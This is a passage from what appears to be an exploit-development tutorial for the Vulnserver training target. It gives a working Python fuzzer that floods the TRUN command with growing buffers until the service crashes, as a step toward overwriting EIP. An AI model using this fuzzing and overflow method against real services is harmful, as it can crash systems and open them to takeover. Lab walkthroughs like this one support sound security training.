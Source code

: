 
Fuzzing is just like spiking, but now that we know that this server is vulnerable to `TRUN` and not `STATS` we will use this python2 script for it :

```python
#!/usr/bin/python
 
import sys, socket
from time import sleep
 
buffer = "A" * 100
 
while True:
    try:
        payload = "TRUN /.:/" + buffer
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        print ("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
```

The purpose of this script is so far there is connection to our target which is specified with the `ip` and `port` , it will keep sending buffer, we are trying to narrow down where things are breaking and it byte size

- Save your script with `.py` and make sure you have immunity debugger and vulnserver ready
- Also make sure you click the `run` button first on immunity debugger before moving on

![](https://i.imgur.com/80EQ0QI.png)

- Now run your script and notice what is going on

![](https://i.imgur.com/rRMMTot.gif)

- As you can see the `A * 100` in our script took effect and the payload `TRUN /.:/` was also there, What we are trying to do here is to manipulate the **EIP**, if we can, then we can get root

![](https://i.imgur.com/1LNPQQT.png)
